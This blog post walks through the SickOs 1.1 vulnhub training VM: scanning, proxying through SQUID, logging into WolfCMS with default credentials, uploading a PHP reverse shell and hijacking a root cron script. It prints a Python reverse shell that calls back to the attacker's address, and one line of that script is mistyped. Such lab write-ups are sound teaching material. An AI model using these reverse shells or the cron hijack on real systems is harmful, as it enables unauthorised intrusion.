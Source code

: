 ```yaml
---
title:      "SickOs1.1 WriteUp"
date:       2016-10-29 18:00:00
tags: [pentesting,writeup,vulnhub,sickos]
---
```

Today we will be solving a boot2root virtual machine from [vulnhub](http://www.vulnhub.com) that promises to be very interesting.

According to its creator, it is an entry-level machine, similar to the ones we could face on the OSCP labs, so if anyone is interested in tackling this certification, this could be an interesting starting point.

## Reconnaissance
Once booted the virtual machine (loaded on VMWare Player, NAT network configuration), we start by locating the machine with __*netdiscover*__ from the attacking machine in the same virtual network (A Kali distro in my case).

{% include image.html
            img="images/sickos1/sickos1.1-1.png"
            title="Execution of the netdiscover tool"
            caption="IPs .1, .2 and .254 are the ones used by VMWare for NAT administration, so the address of our victim is 172.16.159.129" %}

## Scanning
Our inseparable friend *__nmap__* could not miss the party. Initially, we launch a complete scan on every TCP port to see what services may be running.

{% include image.html
            img="images/sickos1/sickos1.1-2.png"
            title="nmap scan"
            caption="Preliminary scan with nmap" %}

We have __an SSH server open and a SQUID server__. The SSH server does not seem to be a vulnerable version, so SQUID will be our main attack vector for now.

### Fiddling with the proxy
Inspecting the SQUID server via browser we find out that it is working as an access filter.

{% include image.html
            img="images/sickos1/sickos1.1-3.png"
            title="SQUID error message"
            caption="While accessing the webpage, SQUID blocks our access, suggesting us how we could ask for redirectioning" %}

Editing the browser settings enables us to access through the proxy server offered by SQUID.

{% include image.html
            img="images/sickos1/sickos1.1-4.png"
            title="Browser proxy settings"
            caption="From now on, all our browser traffic will go trough the proxy, so it will be possible to access new resources" %}

Once the proxy is configured, it is logical to start trying with well-known ports in order to determine whether there is any web server running.

### Web scanning
We find an apparently simple web page on TCP port 80.

{% include image.html
            img="images/sickos1/sickos1.1-5.png"
            title="Web server on port 80"
            caption="HTML page without much more to offer" %}

Now that we know that there is a server running, it is worth trying *__nikto__* on it.

{% include image.html
            img="images/sickos1/sickos1.1-6.png"
            title="First half of nikto scan"
            caption="First half of nikto scan, the proxy is used for redirecting the scan" %}


{% include image.html
            img="images/sickos1/sickos1.1-7.png"
            title="Second half of nikto scan"
            caption="Second half of nikto scan" %}

Among all the interesting information found, we could make two important points:
* There exists a __robots.txt__ file, which kindly requests to search engine spiders not to index some pages inside a website, so it could contain something interesting.
* Some CGI are vulnerable to __shellshock__.

Willing to continue on the scanning stage, I decided to investigate the __robots.txt__ file, having __shellshock__ as ace on my sleeve just in case.

The __robots.txt__ file contains the following:  
    User-agent: *  
    Disallow: /  
    Disallow: /wolfcms

### WolfCMS
The */wolfcms* route seems promising, let's take a look.

{% include image.html
            img="images/sickos1/sickos1.1-8.png"
            title="WolfCMS initial page"
            caption="WolfCMS initial page" %}

A content management system is always something interesting, as it could enable us to upload interesting files to the server. After digging a bit inside the official documentation, we discover the administrator login page.

{% include image.html
            img="images/sickos1/sickos1.1-9.png"
            title="WolfCMS admin login"
            caption="WolfCMS admistrator login page" %}

## Intrusion

### Web service
After various user and password combination random tests, we are lucky with __admin:admin__. It is certainly not the most impressive way of breaking into a system, but human mistakes as easy credentials are always dangerous risks that play in favour of an attacker.

### Limited shell
We find an administration interface that allows to upload files to the */public* directory. As we already knew, what we have is an __Apache__ server on our hands (thanks *__nikto__*) so we will try with a __[PHP script](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) for a reverse TCP connection__.


{% include image.html
            img="images/sickos1/sickos1.1-10.png"
            title="WolfCMS administrator interface"
            caption="WolfCMS administrator interface" %}

The next thing to do is opening a listening port with *__netcat__* in order to receive the connection request from our victim.

{% include image.html
            img="images/sickos1/sickos1.1-11.png"
            title="nc -v -n -l -p 9999"
            caption="Open listening port on attacking machine" %}

After modifying the script in order to point at our IP and TCP port, __we upload it and invoke the script from *http://172.16.159.129/wolfcms/public/php-reverse-shell.php*__ on the browser, and we will obtain a limited shell.

{% include image.html
            img="images/sickos1/sickos1.1-12.png"
            title="Receiving the reverse TCP shell"
            caption="Access to system with user __www-data__" %}

### Privilege Escalation
Once inside the server, we start snooping the directory tree until we find what will be the key to root.

{% include image.html
            img="images/sickos1/sickos1.1-13.png"
            title="ls /etc/cron.d; cat /etc/cron.d/automate"
            caption="Script executed by root every minute" %}

It appears that we have writing permission on a python script executed by user __root__ every minute through *crontab*. From here on, there are many ways of proceeding, but I chose to keep with the reverse shell technique.

Adapting __[this one-line command](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)__, we substitute the python file for the next script:

```python
#!/usr/bin/python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.16.159.128",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p.subprocess.call(["/bin/sh","-i"])
```
With the script ready, we only have to wait until it is executed and obtain a root shell.

{% include image.html
            img="images/sickos1/sickos1.1-14.png"
            title="-v -n -l -p 1234"
            caption="Obtaining root shell" %}

## Flag
Finally, we obtain the flag from the */root* directory.

{% include image.html
            img="images/sickos1/sickos1.1-15.png"
            title="Flag."
            caption="CTF flag" %}

## Conclusions
It is obviously not the hardest machine you can find out there, yet it is very complete and close to reality. All pentesting steps must be covered (skipping *footprinting*, naturally) and, as it is common, there is not only one way of clearing the obstacles to our goal. In my opinion, a funny machine, useful for dusting off old habits and skills.

<iframe width="560" height="315" src="https://www.youtube.com/embed/4DHHv5OuEzY" frameborder="0" allowfullscreen="1"></iframe>
